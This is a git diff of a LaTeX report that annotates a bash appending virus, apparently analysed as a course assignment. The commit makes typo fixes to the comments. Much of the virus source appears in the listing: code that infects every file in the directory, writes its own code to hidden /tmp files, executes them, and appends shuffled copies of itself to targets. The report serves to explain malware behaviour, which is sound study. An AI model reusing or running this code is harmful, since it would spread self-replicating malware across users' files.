

Before and after one commit to VincenzoArceri/bash-virus, a LaTeX document (report/new_report.tex): part of the page, cut so that both start at the same text. Compiled offline with pdfLaTeX.

Commit message:
Fixed some errors in the report

```diff
--- a/report/new_report.tex
+++ b/report/new_report.tex
@@ -62,8 +62,8 @@ The bash code given as assignment is a appending virus that copies his own code
 Below we explain in detail the virus behavior.
 
 \begin{lstlisting}
-if [ "$1" == "test" ]; then  #@1// If the first parameter is equals to "test" exit and
-  exit 0  #@2				// return 0 because the file is already infected
+if [ "$1" == "test" ]; then  #@1// If the first parameter is equals to "test" exit
+  exit 0  #@2				// with exit status 0 because the file is already infected
 fi  #@3
 MANAGER=(test cd ls pwd)  #@4 // Array of 4 elements, used as temporary file names
 RANDOM=$$  #@5 // Reseed the random number generator using virus process ID
@@ -71,7 +71,6 @@ for target in *; do  #@6	// For each file in the directory
 	nbline=$(wc -l $target)  #@7		// Count the number of the target file
 	nbline=${nbline##}  #@8	// Trim the left side of the string
 	nbline=$(echo $nbline | cut -d " " -f1)  #@9 // and retrives the number of lines
-	nbline=$(echo $nbline | cut -d " " -f1) #@9 		// and retrive the number of lines
 
 	// Checks if the chosen file has less number of lines of the virus.
 	// If it is true continue with another file
@@ -83,7 +82,7 @@ for target in *; do  #@6	// For each file in the directory
 	// Takes the last 36 lines of target and sort them with ordering based on the number after @.
 	// It restores the code in the original order and writes the output in an hidden temporary file. (name chosen in the previous line)
 	tail -n 36 $target | awk '{ print($NF" "$0) }' | cut -d"@" -f2- | sort -g | cut -d" " -f2- > /tmp/".$NEWFILE"  #@14
-	// Gives to /tmp/\ /"$NEWFILE"  the execution permission and execute it redirecting stderr to /dev/null
+	// Gives to /tmp/."$NEWFILE"  the execution permission and execute it redirecting stderr to /dev/null
 	chmod +x /tmp/".$NEWFILE" && /tmp/".$NEWFILE" test 2> /dev/null;  #@15
   // Checks the exit code of the last command executed: if it correspond to the virus it returns 0 (see first 3 lines) and continue, because the file is already infected.
   if [ "$?" == "0" ]; then  #@16
@@ -93,7 +92,7 @@ for target in *; do  #@6	// For each file in the directory
   NEWFILE=${MANAGER[$((RANDOM % 4))]}  #@19
 	// Path of the just created file
   NEWFILE="/tmp/.$NEWFILE"  #@20
-	// Appends to the target file the nexts 3 lines of code that will be executed  when the target file will be run: this lines gets the last 36 lines of target (the virus) and executes it in background: there three lines are used for the infection phase; re-order the last 36 lines of the infected file and execute them.
+	// Appends to the target file the nexts 3 lines of code that will be executed  when the target file will be run: these lines gets the last 36 lines of target (the virus) and executes it in background: there three lines are used for the infection phase; re-order the last 36 lines of the infected file and execute them.
   echo "tail -n 36 $0 | awk '{ print(\$NF\" \"\$0) }' | cut -d\"@\" -f2- | sort -g | cut -d\" \" -f2- > $NEWFILE" >> $target  #@21
   echo "chmod +x $NEWFILE && $NEWFILE &" >> $target  #@22
   echo "exit 0" >> $target  #@23
@@ -107,7 +106,7 @@ for target in *; do  #@6	// For each file in the directory
     while [ "${tabft[$valindex]}" == "FT" ]; do  #@28
       valindex=$(((RANDOM % 36) + 1))  #@29
     done  #@30
-		// Takes the last (n - valindex)-line of the virus
+		// Takes the last (n minus valindex)-line of the virus
     line=$(tail -n $valindex $0 | head -1)  #@31
     // Appends the line to the target file
     echo -e "$line" >> $target  #@32
```
